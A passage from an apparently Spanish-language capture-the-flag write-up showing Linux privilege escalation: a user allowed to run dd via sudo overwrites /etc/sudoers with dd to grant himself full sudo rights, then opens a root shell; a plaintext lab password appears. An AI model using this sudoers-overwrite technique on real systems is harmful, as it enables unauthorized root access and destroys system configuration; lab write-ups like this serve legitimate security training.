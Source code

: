 ```terminal
luisillo@66b028a2a370:~$ sudo -l
Matching Defaults entries for luisillo on 66b028a2a370:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 66b028a2a370:
    (ALL) NOPASSWD: /bin/dd
```

Según [GTFOBins](https://gtfobins.github.io/gtfobins/dd/#sudo), `dd` permite redirigir contenido hacia archivos arbitrarios con permisos de `root`. Esto habilita la posibilidad de sobreescribir `/etc/sudoers` para escalar privilegios, sin requerir ejecución de binarios adicionales.

```terminal
luisillo@66b028a2a370:~$ LFILE=/etc/sudoers

luisillo@90d89cd7471b:~$ echo 'luisillo ALL=(ALL:ALL) ALL' | sudo /bin/dd of=$LFILE
0+1 records in
0+1 records out
27 bytes copied, 3.1509e-05 s, 857 kB/s
```

Una vez modificada la política, es posible utilizar `sudo` de manera convencional sin restricción y acceder a una shell como `root`.

```terminal
luisillo@90d89cd7471b:~$ sudo su
[sudo] password for luisillo: luisillosuperpassword

root@90d89cd7471b:/home/luisillo# id
uid=0(root) gid=0(root) groups=0(root)
```
